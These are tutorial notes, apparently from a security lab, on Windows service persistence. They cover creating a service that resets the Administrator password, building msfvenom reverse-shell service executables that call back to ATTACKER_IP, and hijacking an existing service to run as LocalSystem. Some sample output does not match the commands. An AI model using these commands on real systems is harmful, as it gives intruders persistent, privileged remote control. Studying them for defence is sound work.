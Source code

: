 # Abusing Services

* Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.
* A service is basically an executable that runs in the background. When configuring a service, you define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.
* There are two main ways we can abuse services to establish persistence: either create a new service or modify an existing one to execute our payload.

#### Creating backdoor services

* We can create and start a service named "RestartService" using the following commands:

```
sc.exe create RestartService binPath= "net user Administrator Passwd123" start= auto
sc.exe start RestartService
```

* **Note: There must be a space after each equal sign for the command to work.**
* The "`net user`" command will be executed when the service is started, **resetting the Administrator's password to `Passwd123`**. Notice how the service has been set to start automatically `(start= auto)`, so that it runs without requiring user interaction.
* Resetting a user's password works well enough, but we can also create a reverse shell with `msfvenom` and associate it with the created service.
* Notice, however, that service executables are unique since they need to implement a particular protocol to be handled by the system.
* If you want to create an executable that is compatible with Windows services, you can use the `exe-service` format in msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```

* You can then copy the executable to your target system, say in C:\Windows and point the service's binPath to it:

```
sc.exe create RestartService2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start RestartService
```

* This should create a connection back to your attacker's machine.

### Modifying existing services

* While creating new services for persistence works quite well, the blue team may monitor new service creation across the network.
* We may want to reuse an existing service instead of creating one to avoid detection.
* Usually, any disabled service will be a good candidate, as it could be altered without the user noticing it.
* You can get a list of available services using the following command:

```
sc.exe query state=all

SERVICE_NAME: Test
DISPLAY_NAME: Test
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

* You should be able to find a stopped service called `Test`. To query the service's configuration, you can use the following command:

```
sc.exe qc Test
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Test
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2 AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\MyService\Test.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Test
        DEPENDENCIES       : 
        SERVICE_START_NAME : NT AUTHORITY\Local Service
```

* There are three things we care about when using a service for persistence:
* The executable (`BINARY_PATH_NAME`) should point to our payload.
* The service `START_TYPE` should be automatic so that the payload runs without user interaction.
* The `SERVICE_START_NAME`, which is the account under which the service will run, should preferably be set to `LocalSystem` to gain `SYSTEM` privileges.
* Let's start by creating a new reverse shell with msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
```

To reconfigure "`Test`" parameters, we can use the following command:

```
sc.exe config Test binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

You can then query the service's configuration again to check if all went as expected:

```
sc.exe qc Test
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\rev-svc2.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Test
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
